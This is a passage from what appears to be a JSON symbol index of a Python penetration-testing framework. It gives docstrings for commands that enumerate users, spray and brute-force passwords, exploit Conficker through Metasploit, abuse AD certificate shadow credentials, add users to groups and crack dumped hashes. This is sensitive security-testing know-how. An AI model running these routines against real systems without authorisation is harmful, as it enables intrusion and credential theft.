usrwordlist <path>` command.\n- Execute the command `sudo smtp-user-enum -M VRFY -U <usrwordlist> -t <self.params['rhost']>`.\n- Ex: sudo smtp-user-enum -M VRFY -U /usr/share/wordlists/SecLists-master/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.10\nNote: Ensure that you have the necessary permissions to run `smtp-user-enum` with `sudo` and that the wordlist file exists at the specified path.", "kind": "method", "line": 441, "name": "do_smtpuserenum", "signature": "def do_smtpuserenum(self, line)"}, {"doc": "Execute a command to list active SSH connections.\n\nThis method uses `netstat` to display established (`ESTAB`) connections and filters the results to show only SSH connections.\n\nParameters:\n- line: Unused parameter in this function.\n\nReturns:\n- None\n\nExamples:\n>>> do_sessionssh(\"\")\n(Displays active SSH connections in the console)", "kind": "method", "line": 480, "name": "do_sessionssh", "signature": "def do_sessionssh(self, line)"}, {"doc": "Scans for hosts with SMB service open on port 445 in the specified target network.\n\nThis function performs the following actions:\n1. Scans the specified subnet for hosts with an open SMB port (445).\n2. Sets up a Metasploit handler to listen for reverse connections.\n3. Attempts to exploit the Conficker vulnerability on each identified host.\n4. Optionally conducts a brute-force attack on SMB using the provided password file.\n\nParameters:\nline (str): The command line input for the smbattack function,\n            though not used directly in this implementation.\n\nReturns:\nNone", "kind": "method", "line": 504, "name": "do_smbattack", "signature": "def do_smbattack(self, line)"}, {"doc": "Executes a parsero scan on a specified target URL or host.\n\nUsage:\n    parsero -u <URL> [-o <output file>] [other options]\n\nIf a URL is provided as an argument, it will be used as the target for the scan.\nOtherwise, it will use the target specified in self.params['rhost'].", "kind": "method", "line": 648, "name": "do_parsero", "signature": "def do_parsero(self, line)"}, {"doc": "Executes a changeme scan on a specified target URL or host.\n\nUsage:\n    changeme [-o <output file>] --oa -t 20 self.params['rhost']\n\nIf a URL is provided as an argument, it will be used as the target for the scan.\nOtherwise, it will use the target specified in self.params['rhost'].", "kind": "method", "line": 680, "name": "do_changeme", "signature": "def do_changeme(self, line)"}, {"doc": "Performs enumeration of information from a target system using `enum4linux-ng`.\n\n1. Executes the `enum4linux-ng` command with the `-A` option to gather extensive information from the specified target.\n\n:param line: This parameter is not used in the current implementation but could be used to pass additional options or arguments if needed.\n:param self.params['rhost']: The target host for enumeration, specified in the `params` dictionary.\n\n:returns: None\n\nManual execution:\nTo manually enumerate information from a system, use the following command:\n    enum4linu-ng -A <target_host>\n\nReplace `<target_host>` with the IP address or hostname of the target system.\n\nFor example:\n    enum4linux-ng -A 192.168.1.10", "kind": "method", "line": 711, "name": "do_enum4linux_ng", "signature": "def do_enum4linux_ng(self, line)"}, {"doc": "Executes a web server fuzzing script with user-provided parameters.\n\nThis function prompts the user for the necessary parameters to run the fuzzing script,\nincluding the target IP, port, HTTP method, directory, file extension, and expected status codes.\n\nUsage:\n    fuzzing\n\nParameters:\n    line (str): The command line input for the function (not used directly in the current implementation).\n\nReturns:\n    None\n\nExample:\n    To run the fuzzing script, enter the required parameters when prompted by the function.", "kind": "method", "line": 751, "name": "do_fuzz", "signature": "def do_fuzz(self, line)"}, {"doc": "Executes the Kerbrute tool to enumerate user accounts against a specified target self.params['domain'] controller.\n\nThis function performs the following actions:\n1. Retrieves necessary parameters such as the target URL and remote host (self.params['rhost']).\n2. Determines the self.params['domain'] based on the provided URL.\n3. Validates the remote host address.\n4. Constructs and executes the Kerbrute command to enumerate user accounts, saving the results in the sessions/users.txt file.\n\nParameters:\nline (str): Specify 'pass' to use credentials from 'credentials.txt' for password spraying, 'brute' to brute force using 'users.txt' and the RockYou wordlist, or leave empty for default behavior.\n\nReturns:\nNone\n\nExample:\nTo enumerate user accounts using Kerbrute, ensure Kerbrute is in your path,\nthen run this function to perform the enumeration.\n\nNote:\n- The function assumes that the Kerbrute binary (kerbrute_linux_amd64) is present in the system's PATH.\n- The file sessions/users.txt should exist and contain the list of usernames to enumerate.", "kind": "method", "line": 796, "name": "do_kerbrute", "signature": "def do_kerbrute(self, line)"}, {"doc": "Tests WebDAV server configurations using `davtest`.\n\nThis function checks if `davtest` is installed and installs it if necessary. It then runs `davtest`\nto perform a WebDAV server test against a specified URL or the default URL configured in `self.params`.\n\n:param line: The URL of the WebDAV server to test. If provided, it overrides the default URL.\n            If not provided, the function uses the URL specified in `self.params['rhost']`.\n\n:returns: None\n\nManual execution:\nTo manually test a WebDAV server, use the following command:\n    davtest --url <url>\n\nReplace `<url>` with the URL of the WebDAV server you want to test.\n\nFor example:\n    davtest --url http://example.com/webdav", "kind": "method", "line": 882, "name": "do_davtest", "signature": "def do_davtest(self, line)"}, {"doc": "Runs evil-ssdp with various options and user-selected templates.\n\n:param line: Not used in this implementation but reserved for future use.\n\n:returns: None", "kind": "method", "line": 923, "name": "do_evil_ssdp", "signature": "def do_evil_ssdp(self, line)"}, {"doc": "Executes netexec with various options for network protocol operations.\n\nThis function handles the installation of netexec and allows the user to execute various network protocol operations with minimal input.\nIt reads credentials from a specified file and constructs the necessary commands to interact with the target system.\n\n:param line: Command line input from the user. This input is used to determine the protocol and action to be executed.\n:returns: None\n\nThe function performs the following steps:\n1. Checks if netexec is installed. If not, it installs it.\n2. Reads credentials from a file.\n3. Constructs and executes the netexec command based on user input.\n4. Enumerates available protocols and actions for each protocol, allowing the user to select them interactively.\n5. Enumerates available options for each action, allowing the user to select them interactively.\n\nExample usage:\n```\ndo_netexec(\"smb target -u username -p password --shares\")\n```\n\nThis will execute the SMB protocol with the specified action and options.\n\nIf no specific command is provided, the function will prompt the user to select a protocol and action interactively.", "kind": "method", "line": 969, "name": "do_netexec", "signature": "def do_netexec(self, line)"}, {"doc": "Execute the AlliN.py tool with various scan modes and parameters.\n\nThis function prompts the user to choose a scan type (e.g., pscan, sfscan, bakscan),\nand then asks for the necessary parameters (host, ports, project name, etc.).\nBased on the user's input, it generates the corresponding command and executes it.\n\n:param line: Not used in this implementation.\n:returns: None", "kind": "method", "line": 1222, "name": "do_allin", "signature": "def do_allin(self, line)"}, {"doc": "Execute the windapsearch tool to perform Active Directory Domain enumeration through LDAP queries.\n\nThis function allows the user to specify various parameters for executing different LDAP query modules\nusing windapsearch. It handles user input for self.params['domain'], username, password, and other options, constructs\nthe command, and executes it.\n\n:param line: Not used in this implementation.\n:returns: None", "kind": "method", "line": 1293, "name": "do_windapsearch", "signature": "def do_windapsearch(self, line)"}, {"doc": "Executes an LDAP search against a target remote host (self.params['rhost']) and saves the results.\n\nThis function performs the following tasks:\n1. Extracts the target remote host (self.params['rhost']) from the class parameters.\n2. Verifies if the self.params['rhost'] is valid using a custom `check_rhost` function.\n3. Retrieves the self.params['domain'] information from the parameters.\n4. Ensures that the 'ldapsearch' binary is available on the system. If it's missing, the function attempts to install it using the system's package manager (`apt`).\n5. Constructs the LDAP search query based on the self.params['domain'] information, splitting the self.params['domain'] into components to form the correct base DN (Distinguished Name).\n6. Runs the LDAP search with the following options:\n    - `-x`: Simple authentication (anonymous bind).\n    - `-H`: Specifies the LDAP server URL (using the self.params['rhost']).\n    - `-b`: Specifies the search base (constructed from the self.params['domain']).\n    - `-s sub`: Indicates the search scope, where 'sub' performs a subtree search.\n7. Saves the result of the search to a log file under the 'sessions' directory, named based on the self.params['rhost'].\n8. Displays the log file content and checks for any 'lock' entries, which could indicate locked accounts or security incidents.\n9. Extracts `userPrincipalName` attributes from the log, parses them, and appends the usernames (without self.params['domain']) to a users.txt file for further analysis.\n\nThis function is useful in penetration testing engagements where LDAP enumeration is part of the reconnaissance phase. It automates LDAP queries and extracts useful user information, which could assist in credential harvesting, password spraying, or other user-based attacks.", "kind": "method", "line": 1421, "name": "do_ldapsearch", "signature": "def do_ldapsearch(self, line)"}, {"doc": "Executes an Arjun scan on the specified URL for parameter discovery.\n\nThis function checks if Arjun is installed on the system, installs it if necessary, and then constructs\na command to run Arjun against the provided URL with user-defined options.\n\nParameters:\n    line (str): Input line, not currently used.", "kind": "method", "line": 1482, "name": "do_arjun", "signature": "def do_arjun(self, line)"}, {"doc": "Executes the `finger-user-enum` tool for enumerating users on the target host.\n\nThis function checks if the `finger-user-enum` script is available locally; if not, it clones\nit from GitHub. It then constructs a command to run the tool with the provided wordlist of\nusernames and target host, and executes the command in the system.\n\nParameters:\n    line (str): Input line, not currently used.\n\nReturns:\n    None: Outputs the command executed and any messages during execution.", "kind": "method", "line": 1550, "name": "do_finger_user_enum", "signature": "def do_finger_user_enum(self, line)"}, {"doc": "Command wpscan: Installs and runs WPScan to perform WordPress vulnerability scanning.\n\nThis function performs the following tasks:\n1. Checks if WPScan is installed.\n2. Installs WPScan using gem if not already installed.\n3. Prompts the user for a URL to scan.\n4. Allows the user to choose additional WPScan options such as --stealthy or --enumerate.\n5. Executes the WPScan command with the chosen options.\n\nArgs:\n    line (str): Optional argument to specify the URL or additional WPScan options.\n\nReturns:\n    None\n\nExample:\n    wpscan --url blog.tld", "kind": "method", "line": 1596, "name": "do_wpscan", "signature": "def do_wpscan(self, line)"}, {"doc": "Command loxs: Installs and runs Loxs for multi-vulnerability web application scanning.\n\nThis function performs the following tasks:\n1. Checks if Loxs is already cloned in the external/.exploit directory.\n2. Clones the Loxs repository if not present.\n3. Installs required dependencies.\n4. Prompts the user for a URL or file input, custom payload file, success criteria, and thread count.\n5. Executes Loxs for scanning vulnerabilities like LFI, OR, XSS, and SQLi.\n6. Displays real-time results and optionally saves vulnerable URLs.\n\nArgs:\n    line (str): Optional argument for specifying the input URL or file, custom payload, and additional options.\n\nReturns:\n    None\n\nExample:\n    loxs --url target.com", "kind": "method", "line": 1659, "name": "do_loxs", "signature": "def do_loxs(self, line)"}, {"doc": "Command blazy: Installs and runs blazy for multi-vulnerability web application scanning.\n\nThis function performs the following tasks:\n1. Checks if blazy is already cloned in the external/.exploit directory.\n2. Clones the blazy repository if not present.\n3. Installs required dependencies.\n4. Prompts the user for a URL or file input, custom payload file, success criteria, and thread count.\n5. Executes blazy for Bruteforce Login.\n6. Displays real-time results and optionally saves vulnerable URLs.\n\nArgs:\n    line (str): Optional argument for specifying the input URL.\n\nReturns:\n    None\n\nExample:\n    python3 main.py -i target.com", "kind": "method", "line": 1703, "name": "do_blazy", "signature": "def do_blazy(self, line)"}, {"doc": "Command parth: Installs and runs Parth for discovering vulnerable URLs and parameters.\n\nThis function performs the following tasks:\n1. Checks if Parth is already cloned in the external/.exploit directory.\n2. Clones the Parth repository if not present.\n3. Installs required dependencies using pip3.\n4. Prompts the user for a URL, file input, or import option and allows for custom output such as JSON or saving parameter names.\n5. Executes Parth for scanning vulnerabilities like LFI, SSRF, SQLi, XSS, and open redirects.\n6. Displays real-time results and optionally saves output in a file.\n\nArgs:\n    line (str): Optional argument for specifying the target self.params['domain'], import file, or additional Parth options.\n\nReturns:\n    None\n\nExample:\n    parth -t example.com", "kind": "method", "line": 1752, "name": "do_parth", "signature": "def do_parth(self, line)"}, {"doc": "Command breacher: Installs and runs Breacher for finding admin login pages and EAR vulnerabilities.\n\nThis function performs the following tasks:\n1. Checks if Breacher is already cloned in the external/.exploit directory.\n2. Clones the Breacher repository if not present.\n3. Installs required dependencies.\n4. Prompts the user for a target URL, file type (php, asp, html), custom paths, and thread options.\n5. Executes Breacher for scanning admin login pages and potential EAR vulnerabilities.\n6. Supports multi-threading and custom paths for enhanced scanning.\n\nArgs:\n    line (str): Optional argument for specifying the target URL, file type, and additional Breacher options.\n\nReturns:\n    None\n\nExample:\n    breacher -u example.com --type php", "kind": "method", "line": 1821, "name": "do_breacher", "signature": "def do_breacher(self, line)"}, {"doc": "Command openredirex: Clones, installs, and runs OpenRedirex for testing open redirection vulnerabilities.\n\nThis function performs the following tasks:\n1. Clones the OpenRedirex repository if not already cloned.\n2. Installs the required dependencies using the setup script.\n3. Prompts the user for required inputs like the URL list, payloads file, keyword, and concurrency level.\n4. Executes OpenRedirex to scan the provided URLs for open redirection vulnerabilities.\n\nArgs:\n    line (str): Optional argument for specifying the URL list, payload file, keyword, and concurrency level.\n\nReturns:\n    None\n\nExample:\n    openredirex list_of_urls.txt payloads.txt FUZZ 50", "kind": "method", "line": 1883, "name": "do_openredirex", "signature": "def do_openredirex(self, line)"}, {"doc": "Command odat: Runs the ODAT sidguesser module to guess Oracle SIDs on a target Oracle database.\n\nThis function performs the following tasks:\n1. Ensures that ODAT is installed (checks if 'odat.py' exists).\n2. Allows the user to specify the RHOST and port.\n3. Runs ODAT's 'sidguesser' module with the specified parameters.\n\nArgs:\n    line (str): Optional argument for specifying additional ODAT options.\n\nReturns:\n    None\n\nExample:\n    odat", "kind": "method", "line": 1951, "name": "do_odat", "signature": "def do_odat(self, line)"}, {"doc": "Command rpcmap_py: Executes rpcmap.py commands to enumerate MSRPC interfaces.\n\nThis function allows the user to:\n1. Run rpcmap.py with a specified string binding to discover MSRPC interfaces.\n2. Filter the output using grep for specific DCOM-related interfaces.\n3. Optionally run rpcmap.py with additional flags for brute-forcing opnums and adjusting the authentication level.\n\nArgs:\n    line (str): Optional argument specifying the string binding or additional flags for rpcmap.py.\n\nReturns:\n    None\n\nExample:\n    rpcmap_py 'ncacn_ip_tcp:10.10.10.213'\n    rpcmap_py 'ncacn_ip_tcp:10.10.10.213' -brute-opnums -auth-level 1 -opnum-max 5", "kind": "method", "line": 2069, "name": "do_rpcmap_py", "signature": "def do_rpcmap_py(self, line)"}, {"doc": "Command pykerbrute: Automates the installation and execution of PyKerbrute for bruteforcing Active Directory accounts using Kerberos pre-authentication.\n\nThis function performs the following tasks:\n1. Clones and installs PyKerbrute if not already installed.\n2. Allows the user to choose between the EnumADUser.py and ADPwdSpray.py scripts.\n3. Executes the selected script with user-defined parameters, including self.params['domain'], mode (TCP/UDP), and selected hash or password.\n\nArgs:\n    line (str): Optional argument for specifying additional parameters for execution, such as self.params['domain'] controller, self.params['domain'], and attack mode.\n\nReturns:\n    None", "kind": "method", "line": 2112, "name": "do_pykerbrute", "signature": "def do_pykerbrute(self, line)"}, {"doc": "Executes the Impacket netview tool to list network shares on a specified target.\n\nThis function performs the following actions:\n1. Checks if the target host is valid.\n2. If the line argument is \"pass\", it searches for credential files with the pattern `credentials*.txt`\nand allows the user to select which file to use for executing the command.\n3. If line is \"hash\", it searches for a hash file and prompts the user for a username, then constructs\nand executes the command with the hash.\n4. If line does not match \"pass\" or \"hash\", it displays an error message with usage instructions.\n\nParameters:\nline (str): A command argument to determine the authentication mode.\n            If \"pass\", the function searches for credential files and authenticates using the selected file.\n            If \"hash\", it uses a hash file for authentication.\n            If neither, it prints an error message with usage instructions.\n\nReturns:\nNone", "kind": "method", "line": 2182, "name": "do_netview", "signature": "def do_netview(self, line)"}, {"doc": "Executes the RDP check tool to verify credentials or hash-based authentication on a target system.\n\nThis function performs the following actions:\n1. Validates the target IP (self.params['rhost']).\n2. If the line argument is \"pass\", it searches for credential files with the pattern `credentials*.txt`\nand prompts the user to select one to execute the RDP check.\n3. If line is \"hash\", it searches for a hash file, prompts the user for a username, and constructs the command\nusing the hash for authentication.\n4. If line does not match \"pass\" or \"hash\", it displays an error message with usage instructions.\n\nParameters:\nline (str): Command argument specifying the authentication mode.\n            If \"pass\", the function authenticates using credentials from a selected file.\n            If \"hash\", it uses a hash file for authentication.\n            If neither, it displays an error message with usage instructions.\n\nReturns:\nNone", "kind": "method", "line": 2246, "name": "do_rdp_check_py", "signature": "def do_rdp_check_py(self, line)"}, {"doc": "Executes the MQTT check tool to verify credentials on a target system with optional SSL.\n\nThis function performs the following actions:\n1. Validates the target IP (self.params['rhost']).\n2. If the line argument is \"pass\", it searches for credential files matching the pattern `credentials*.txt`\nand prompts the user to select one to execute the MQTT check.\n3. If line is \"ssl\", it performs the MQTT check with SSL enabled using the selected credentials.\n4. If line does not match \"pass\" or \"ssl\", it displays an error message with usage instructions.\n\nParameters:\nline (str): Command argument specifying the authentication mode.\n            If \"pass\", the function authenticates using credentials from a selected file.\n            If \"ssl\", it authenticates using SSL.\n            If neither, it displays an error message with usage instructions.\n\nReturns:\nNone", "kind": "method", "line": 2311, "name": "do_mqtt_check_py", "signature": "def do_mqtt_check_py(self, line)"}, {"doc": "Executes the LookupSID tool to perform SID enumeration on a target system.\n\nThis function performs the following actions:\n1. Validates the target IP (self.params['rhost']).\n2. If the line argument is \"basic\", it searches for credential files with the pattern `credentials*.txt`\nand prompts the user to select one to execute the SID lookup.\n3. If line is \"dc-target\", it performs the SID lookup specifying self.params['domain'] controller and target IPs,\nusing the selected credentials.\n4. If line does not match \"basic\" or \"dc-target\", it displays an error message with usage instructions.\n\nParameters:\nline (str): Command argument specifying the lookup mode.\n            If \"basic\", the function performs a standard SID lookup.\n            If \"dc-target\", it includes `-dc-ip` and `-target-ip` arguments.\n            If \"nopass\", We run lookupsid.py , using an arbitrary username prepended to the target's IP address\n            If neither, it displays an error message with usage instructions.\n\nReturns:\nNone", "kind": "method", "line": 2366, "name": "do_lookupsid_py", "signature": "def do_lookupsid_py(self, line)"}, {"doc": "Executes the Impacket lookupsid tool to enumerate SIDs on a target system.\n\nThis function performs the following actions:\n1. Validates the target IP (or hostname) specified in the line argument.\n2. If the line argument is \"pass\", it searches for credential files with the pattern credentials*.txt\nand prompts the user to select one to execute the lookupsid command.\n3. If line is \"hash\", it prompts the user for a username and constructs the command using the hash for authentication.\n4. If line does not match \"pass\" or \"hash\", it displays an error message with usage instructions.\n\nParameters:\nline (str): Command argument specifying the authentication mode.\n            If \"pass\", the function authenticates using credentials from a selected file.\n            If \"hash\", it uses a hash file for authentication.\n            If neither, it displays an error message with usage instructions.\n\nReturns:\nNone", "kind": "method", "line": 2439, "name": "do_lookupsid", "signature": "def do_lookupsid(self, line)"}, {"doc": "Run certipy-ad against Active Directory Certificate Services.\n\nSupports shadow, vuln, find, account, and auth subcommands.\nRequires self.params['rhost'], self.params['domain'], and credentials in payload.json.\n\nArgs:\n    line (str): Subcommand to run (shadow | vuln | find | account | auth).\n\nReturns:\n    None", "kind": "method", "line": 2501, "name": "do_certipy_ad", "signature": "def do_certipy_ad(self, line)"}, {"doc": "Executes the Certipy tool to interact with Active Directory Certificate Services.\n\nThis function performs the following actions:\n1. Validates the target IP or hostname specified in the line argument.\n2. If line is \"find\", it executes the certipy find command to enumerate AD CS.\n3. If line is \"shadow\", it prompts for an account and executes the certipy shadow command.\n4. If line is \"req\", it prompts for user details and executes the certipy req command to request a certificate.\n5. If line is \"auth\", it prompts for PFX details and executes the certipy auth command for authentication.\n6. If line is \"update\", it prompts for user details and executes the certipy account update command.\n7. If line does not match any valid actions, it displays an error message with usage instructions.\n\nParameters:\nline (str): Command argument specifying the action mode.\n            If \"find\", it enumerates AD CS.\n            If \"shadow\", it abuses shadow credentials for account takeover.\n            If \"req\", it requests a certificate.\n            If \"auth\", it authenticates using a PFX file.\n            If \"update\", it updates user information.\n            If none of these, it displays an error message with usage instructions.\n\nReturns:\nNone", "kind": "method", "line": 2565, "name": "do_certipy", "signature": "def do_certipy(self, line)"}, {"doc": "Executes the Swaks (Swiss Army Knife for SMTP) tool to send test emails for phishing simulations.\n\nThis function performs the following actions:\n1. Checks if Swaks is available; if not, it clones the repository to the appropriate directory.\n2. Constructs the Swaks command with the specified 'to' and 'from' emails, server, and message body.\n3. Runs the command using Swaks to simulate email delivery.\n\nParameters:\nline (str): Command argument specifying additional options or the message body.\n            - If not provided, defaults to a basic test message.\n\nReturns:\nNone", "kind": "method", "line": 2659, "name": "do_sawks", "signature": "def do_sawks(self, line)"}, {"doc": "Executes ad-ldap-enum to enumerate Active Directory objects (users, groups, computers)\nthrough LDAP, collecting extended information on group memberships and additional AD details.\n\nThis function enables the enumeration of Active Directory users, groups, and computers\nby executing LDAP queries on a specified self.params['domain'] controller. The command constructed allows\npassword or Pass-the-Hash authentication, supports SSL/TLS, and IPv4/IPv6 connections,\nand outputs data into CSV files detailing self.params['domain'] group memberships and extended user/computer\ninformation.\n\nFunctionalities include:\n1. Checking for credential availability and prompting for them if not found.\n2. Constructing an LDAP enumeration command with customizable authentication and server details.\n3. Executing `ad-ldap-enum.py` to output detailed information in CSV format.\n\nThe output files are saved in the current working directory with a prepend if specified.\n\nExample command the function can build:\n- `python3 ad-ldap-enum.py -d scrm.local -l 10.10.11.168 -u ksimpson -p ksimpson -v`\n\nUsage:\n    - Run `dp_ad_ldap_enum` to initiate AD object enumeration using ad-ldap-enum.\n\n:param line: String containing initial command-line arguments or options.", "kind": "method", "line": 2696, "name": "do_ad_ldap_enum", "signature": "def do_ad_ldap_enum(self, line)"}, {"doc": "Executes the net rpc group addmem command to add a user to a specified group in Active Directory.\n\nThis function performs the following actions:\n1. Prompts the user for necessary parameters if not provided.\n2. Executes the command to add a user to a specified group in Active Directory.\n\nThe command accepts the following parameters:\n- Group name to which the user will be added.\n- User to be added to the group.\n- Domain credentials for authentication.\n- DC IP address for the self.params['domain'] controller.\n\nParameters:\nline (str): Command argument specifying the user and group options.\n            Expected format:\n                - \"GROUP_NAME\" for the group name\n                - \"$USER\" for the user to add\n                - Required flags for authentication and connection\n\nReturns:\nNone", "kind": "method", "line": 2750, "name": "do_net_rpc_addmem", "signature": "def do_net_rpc_addmem(self, line)"}, {"doc": "Executes the pre2k tool to query the self.params['domain'] for pre-Windows 2000 machine accounts or to pass a list of hostnames to test authentication.\n\nThis function:\n    - Installs pre2k if not already installed.\n    - Executes the pre2k command with the provided parameters.\n    - Displays the result in the terminal.\n\nBehavior:\n    - Requires `python3`, `python3-pip`, and `git` to be installed.\n    - Uses parameters from `self.params` for self.params['domain'], username, password, and target.\n\nUsage:\n    pre2k auth -u <username> -p <password> -d <self.params['domain']> -dc-ip <dc_ip>\n    pre2k unauth -d <self.params['domain']> -dc-ip <dc_ip> -inputfile <inputfile>", "kind": "method", "line": 2796, "name": "do_pre2k", "signature": "def do_pre2k(self, line)"}, {"doc": "Executes the hound tool for Hound is a simple and light tool for information gathering and capture exact GPS coordinates\n\nThis function:\n    - Installs hound if not already installed.\n    - Executes the hound command with the provided parameters.\n    - Displays the result in the terminal.\n\nBehavior:\n    - Requires `git` and `php` to be installed.\n    - Uses a one-liner installation method for simplicity.\n\nUsage:\n    hound", "kind": "method", "line": 2889, "name": "do_hound", "signature": "def do_hound(self, line)"}, {"doc": "Finds and returns a list of target hosts with port 445 open in the specified subnet.\n\nArgs:\n    subnet (str): The subnet to scan, e.g., '192.168.1.0/24'.\n\nReturns:\n    list: A list of IP addresses where port 445 is open.", "kind": "function", "line": 533, "name": "find_tgts", "signature": "def find_tgts(subnet)"}, {"doc": "Sets up a Metasploit multi/handler configuration in the given config file.\n\nArgs:\n    config_file (file-like object): The file object to write the Metasploit handler configuration to.\n    self.params['lhost'] (str): The local host IP address to listen for incoming connections.\n    lport (int): The local port number to listen for incoming connections.\n\nWrites:\n    - Exploit configuration for Metasploit to the provided file.", "kind": "function", "line": 559, "name": "setup_handler", "signature": "def setup_handler(config_file, lhost, lport)"}, {"doc": "Configures and writes a Metasploit exploit for the Conficker vulnerability to the given config file.\n\nArgs:\n    config_file (file-like object): The file object to write the Metasploit exploit configuration to.\n    host (str): The target host IP address to exploit.\n    lhost (str): The local host IP address to listen for incoming connections.\n    lport (int): The local port number to listen for incoming connections.\n\nWrites:\n    - Exploit configuration for the Conficker vulnerability (MS08-067) to the provided file.", "kind": "function", "line": 579, "name": "conficker_exploit", "signature": "def conficker_exploit(config_file, host, lhost, lport)"}, {"doc": "Configures and writes a Metasploit SMB brute force exploit for the given host to the provided config file.\n\nArgs:\n    config_file (file-like object): The file object to write the Metasploit exploit configuration to.\n    host (str): The target host IP address to exploit.\n    passwd_file (str): Path to a file containing a list of passwords to use for brute force.\n    lhost (str): The local host IP address to listen for incoming connections.\n    lport (int): The local port number to listen for incoming connections.\n\nWrites:\n    - Exploit configuration for SMB brute force (using the psexec module) to the provided file for each password in the passwd_file.", "kind": "function", "line": 599, "name": "smb_brute", "signature": "def smb_brute(config_file, host, passwd_file, lhost, lport)"}, {"kind": "function", "line": 996, "name": "install_netexec", "signature": "def install_netexec()"}, {"kind": "function", "line": 1001, "name": "install_netexec_pipx", "signature": "def install_netexec_pipx()"}]}, {"doc": "OPSEC and security commands — risk scoring, credential sealing, rotation.  Integrates modules/opsec_scorer.py, core/credential_vault.py, and modules/hash_cracker.py into the CLI.  Provides commands: opsec <command>        — Score OPSEC risk for a command seal_credentials       — Encrypt sensitive payload values at rest rotate_aes             — Generate new AES key and re-encrypt crack_hashes <file>    — Crack hashes from secretsdump output", "id": "cli/commands/security.py", "kind": "module", "label": "security.py", "language": "py", "sha256": "18e65ed64bbec868", "symbol_count": 8, "symbols": [{"doc": "OPSEC scoring, credential vault, and hash cracking commands.", "kind": "class", "line": 20, "name": "SecurityCommandSet", "signature": "class SecurityCommandSet(LazyOwnCommandSet)"}, {"doc": "Score OPSEC risk for a LazyOwn command before execution.\n\nUsage: opsec <command>\n\nExamples:\n    opsec secretsdump\n    opsec psexec\n    opsec lazynmap", "kind": "method", "line": 26, "name": "do_opsec", "signature": "def do_opsec(self, line)"}, {"doc": "Encrypt all sensitive values in payload.json using AES-256-GCM.\n\nUsage: seal_credentials\n\nAfter sealing, payload.json will contain encrypted values for passwords,\nAPI keys, and other secrets. They are transparently decrypted at runtime.", "kind": "method", "line": 106, "name": "do_seal_credentials", "signature": "def do_seal_credentials(self, _line)"}, {"doc": "Generate a new AES key and re-encrypt all sealed credentials.\n\nUsage: rotate_aes\n\nUse this when you need to rotate the encryption key for operational security.\nAll existing sealed values are decrypted with the old key and re-encrypted\nwith a fresh key.", "kind": "method", "line": 127, "name": "do_rotate_aes", "signature": "def do_rotate_aes(self, _line)"}, {"doc": "Decrypt sealed credential values in payload.json for inspection.\n\nUsage: unseal_credentials\n\nWarning: this writes plaintext credentials back to payload.json.\nUse seal_credentials to re-encrypt them.", "kind": "method", "line": 150, "name": "do_unseal_credentials", "signature": "def do_unseal_credentials(self, _line)"}, {"doc": "Crack password hashes from a file using John the Ripper or Hashcat.\n\nUsage: crack_hashes <filepath> [--wordlist <path>]\n\nParses hashes from the file (e.g., secretsdump output), identifies hash types,\nand runs John or Hashcat. Cracked passwords are imported into the DB.\n\nExamples:\n    crack_hashes sessions/hashes_10.10.11.5.txt\n    crack_hashes sessions/ntds.dit --wordlist /usr/share/wordlists/rockyou.txt", "kind": "method", "line": 170, "name": "do_crack_hashes", "signature": "def do_crack_hashes(self, line)"}, {"kind": "method", "line": 267, "name": "complete_opsec", "signature": "def complete_opsec(self, text, line, begidx, endidx)"}, {"kind": "method", "line": 276, "name": "complete_crack_hashes", "signature": "def complete_crack_hashes(self, text, line, begidx, endidx)"}]}, {"doc": "Session and campaign operations extracted from the miscellaneous cluster.  Pending status: originals deleted from ``cli/commands/misc_migrated.py``; this set is registered by ``cli.registry``.", "id": "cli/commands/session_ops.py", "kind": "module", "label": "session_ops.py", "language": "py", "sha256": "0c923ddb4a572ae0", "symbol_count": 36, "symbols": [{"doc": "Session and campaign operations.", "kind": "class", "line": 72, "name": "SessionOpsCommandSet", "signature": "class SessionOpsCommandSet(LazyOwnCommandSet)"}, {"doc": "Capture a quick operator note attached to the current target and phase.\n\nNotes land in sessions/notes.jsonl with timestamp, self.params['rhost'], and phase\nso they survive session restarts and show up in reports.\n\nUsage:\n    ``note``                    — list recent notes for current self.params['rhost']\n    ``note <text>``             — save a note for current self.params['rhost']/phase\n    ``note -a``                 — list all notes (all targets)\n    ``note Found admin creds in /etc/shadow``\n    ``note SMB signing disabled on DC01``", "kind": "method", "line": 79, "name": "do_note", "signature": "def do_note(self, line)"}, {"doc": "Unified loot: show, search, reuse, graph, and mark credentials.\n\nAggregates every credentials*.txt and hash*.txt in sessions/ into one\ndeduplicated view. Clelazyt passwords show green, hashes red.\n\nSubcommands:\n    ``l00t``                              — show all captured loot\n    ``l00t search <user|host|hash>``      — search loot for a substring\n    ``l00t reuse``                        — rank creds to try on the current rhost\n    ``l00t graph``                        — credential graph: harvested / worked / rejected\n    ``l00t mark <user|secret> worked|rejected [host]``\n                                          — record an auth outcome (defaults host to rhost)\n\nExamples:\n    ``l00t search admin``\n    ``l00t reuse``\n    ``l00t mark administrator worked``\n    ``l00t mark svc_sql rejected 10.10.11.5``", "kind": "method", "line": 104, "name": "do_l00t", "signature": "def do_l00t(self, line)"}, {"doc": "Alias for ``l00t`` — unified loot (show/search/reuse/graph/mark).\n\nSee ``help l00t`` for the full subcommand reference.", "kind": "method", "line": 153, "name": "do_loot", "signature": "def do_loot(self, line)"}, {"doc": "Record a newly discovered pivot target or show the pivot chain.\n\nWhen you compromise a host and discover a new reachable network/IP,\nrecord it here. The pivot chain is stored in sessions/pivots.jsonl\nand survives session restarts.\n\nUsage:\n    ``pivot``                        — show full pivot chain\n    ``pivot <new-ip>``               — record pivot via current rhost\n    ``pivot <new-ip> <note>``        — record with a free-form note\n    ``pivot 10.10.10.50``\n    ``pivot 10.10.10.50 SMB open, admin share accessible``", "kind": "method", "line": 161, "name": "do_pivot", "signature": "def do_pivot(self, line)"}, {"doc": "View and manage the task queue from sessions/tasks.json.\n\nTasks are created automatically by world_model_watcher and the\nautonomous daemon, and can also be added manually. Each task has\nan id, title, status (New/Started/Done/Blocked), and operator.\n\nUsage:\n    ``tasks``             — show active tasks (New + Started)\n    ``tasks --all``       — show all tasks including Done\n    ``tasks add <text>``  — create a new task\n    ``tasks done <id>``   — mark task as Done\n    ``tasks start <id>``  — mark task as Started", "kind": "method", "line": 186, "name": "do_tasks", "signature": "def do_tasks(self, line)"}, {"doc": "List nmap scan files in sessions/ with age, size, and open ports.\n\nWithout arguments shows all scan files. With an IP filters to scans\nfor that target only.\n\nUsage:\n    ``scans``              — all scan files\n    ``scans 10.10.11.5``   — scans for that host only\n    ``scans rhost``        — shortcut for current rhost", "kind": "method", "line": 219, "name": "do_scans", "signature": "def do_scans(self, line)"}, {"doc": 